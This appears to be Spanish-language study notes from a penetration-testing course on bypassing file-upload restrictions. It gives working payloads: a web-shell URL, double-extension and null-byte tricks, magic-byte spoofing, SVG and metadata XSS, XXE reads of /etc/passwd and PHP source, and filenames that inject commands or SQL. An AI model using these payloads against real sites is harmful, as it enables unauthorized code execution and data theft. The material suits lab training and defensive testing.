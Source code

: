 
http://caca.com/uploads/shell.php?cmd=id

## Blacklist filters

Cuando hay una validación de la extensión en el backend donde compara la extensión del archivo con una serie de extensiones de su blacklist

PASOS PARA BYPASSEARLO

1. Fuzzear extensiones y ver cuales están en la blacklist y cuales no
2. Probas a subir shells con las extensiones que te deja para ver si alguna ejecuta la shell

## Whitelist filters

Cuando hay una lista de extensiones que SI deja utilizar

1.Si comprueba que existe una extension de la whitelist en el archivo sin comprobar que es la última extension

 En estos casos usamos las extensiones dobles ,Ej:
 `ejemplo.jpg.php` -> en este caso bypasseamos el filtro porque la web 
 comprueba que el .jpg está 

2.Cuando comprueba la última extensión
 En este caso invertimos las extensiones para que bypasseemos la whitelist 
 pero eso puede no ser suficiente porque el que se ejecute el php o no       
 depende de como este configurado el servidor, esto lo sabremos mejor 
 si el servidor es un open source y podemos ver como trata las extensiones

### Character injection

Se puede jugar con php para que interprete de manera errónea las extensiones con carácteres:
- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`
El `%00` sirve para versiones de PHP 5.X y anteriores , es el null byte y nos sirve para bypassear el filtro pero que luego se guarde sin la extensión de detrás del null byte. Ej: `shell.php%00.jpg -> shell.php`

En servidores windows pasa lo mismo pero con `:`  Ej: `shell.php:.jpg -> shell.php`  no es con php si no con cualquier extensión

## Type filters

En este caso no validan la extensión como en los casos anteriores sino que validan el contenido del archivo , los casos mas comunes son `Content-Type Header` y `File Content`

Esto se nota cuando los bypasses anteriores no nos funcionan y tampoco subir una shell que se llame shell.png ,si la extension png está autorizada y todavía nos da error puede ser porque la web compruebe también el contenido del archivo asi que simplemente cambia el content-type a lo que te deje

## MIME-Type

En este caso se comprueban los llamados Magic Bytes, por ejemplo si un archivo empieza con `GIF87a` entonces es porque es un GIF y esos bytes son los que comprueba la app para ver si tu archivo es adecaudo

## Concatenar con otras vulnerabilidades 

A veces la web está bien protegida ante los ataques vistos anteriormente pero puede ser que a través de una upload podamos agregar a la web una vulnerabilidad nueva 

### XSS

-Subir archivos html que exploten stored XSS

-Cuando una web además de guardar la foto la enseña sus metadatos:
```shell-session
bonack@htb[/htb]$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
```
También puede ser que si de la foto le quitamos los Magic Bytes la web interprete la imagen como texto y por ende que eneseñe el XSS sin necesidad de que se vean explicitamente los metadatos

-Si te deja meterle .svg como imagen podríamos explotar XSS cada vez que  se muestre la foto : 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

### XXE

-Para mostrar /etc/passwd (hay que usar extensión .svg)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
-Para leer el código fuente:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

### DoS
## Command injection

si subimos un archivo que en el nombre tiene un comando y el nombre del archivo entero es ejecutado en un OS puede dar un command injection

`file$(whoami).jpg` 
``file`whoami`.jpg`` 
`file.jpg||whoami`

lo mismo se aplica con XSS y SQLi : `file';select+sleep(5);--.jpg`
